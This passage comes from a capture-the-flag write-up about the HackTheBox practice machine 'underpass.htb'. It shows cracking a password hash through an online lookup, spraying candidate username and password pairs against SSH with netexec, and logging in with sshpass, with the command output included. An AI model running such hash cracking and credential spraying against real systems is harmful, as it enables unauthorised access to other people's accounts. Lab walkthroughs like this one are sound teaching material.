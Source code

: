 The username is svcMosh, and there’s a 32 hex character password that is likely a hash. I’ll throw that into [crackstation](https://crackstation.net/) and it returns “underwaterfriends”:

![image-20250504090757973](/img/image-20250504090757973.png)

### SSH

#### Find Username / Password

I’ve got a likely password and a couple potential usernames. I’ll make a couple lists:

```

oxdf@hacky$ cat users.txt 
steve
svcmosh
root
oxdf@hacky$ cat passwords.txt 
underwaterfriends
412DD4759978ACFCC81DEAB01B382403

```

I’ll have `netexec` try each combination:

```

oxdf@hacky$ netexec ssh underpass.htb -u users.txt -p passwords.txt --continue-on-success
SSH         10.10.11.48     22     underpass.htb    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.10.11.48     22     underpass.htb    [-] steve:underwaterfriends
SSH         10.10.11.48     22     underpass.htb    [+] svcMosh:underwaterfriends  Linux - Shell access!
SSH         10.10.11.48     22     underpass.htb    [-] root:underwaterfriends
SSH         10.10.11.48     22     underpass.htb    [-] steve:412DD4759978ACFCC81DEAB01B382403
SSH         10.10.11.48     22     underpass.htb    [-] root:412DD4759978ACFCC81DEAB01B382403

```

It is worth noting that username case matters here! svcmosh would not have succeeded.

#### Shell

I’ll connect over SSH:

```

oxdf@hacky$ sshpass -p underwaterfriends ssh svcMosh@underpass.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
...[snip]...
Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ 

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*
